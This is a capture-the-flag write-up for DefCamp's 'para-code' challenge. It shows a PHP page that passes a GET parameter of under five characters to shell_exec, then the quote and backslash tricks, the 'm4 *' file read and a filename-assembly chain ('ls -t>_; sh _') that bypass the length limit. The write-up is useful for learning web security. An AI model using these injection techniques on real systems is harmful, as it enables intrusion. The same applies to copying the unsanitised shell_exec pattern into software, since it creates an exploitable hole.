 # DefCamp CTF - para-code

## Description
Command injecion 4 characters limited
```php
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
}
```

If we can inject `cat *`, we could read all files in the directory but this command has 5 characters so it's doesn't work.

## Bypass black-listed
**Search**: 

php tricks hacktricks: https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp

bypass bash restrictiosn: https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions

**Bypassed**:
```
'l's # flag.php, index.php
l''s # still good
p\s # processes
env
```

## Bypass using short command of cat

**Search**: 

Linux two letters command: https://www.davekb.com/browse_computer_tips:linux_two_letter_commands:txt

```bash
# using m4(same as cat)
m4 *
```
Remember to check the `source-code` of the result

**flag**: `791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be`

## Extended to RCE

**In bash, write file input from stdin**:
```bash
>cmd.php
#> <?php system('id'); ?>
cat cmd.php # <?php system('id'); ?>
```

**From that, we got**:
```bash
>php # newline - end command here!
>ex.\\
>ind\\
>\ \\
>cat\\

ls -t>_ # sort by time, in real senario, we have to write a file for this task, just like below

sh _
# hello
```

`_` file:
```bash
cat _
#_            error command/not command raise error but still being ignored and keep running!!
#cat\
# \
#ind\
#ex.\
#php
#index.php
```

# References:
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2
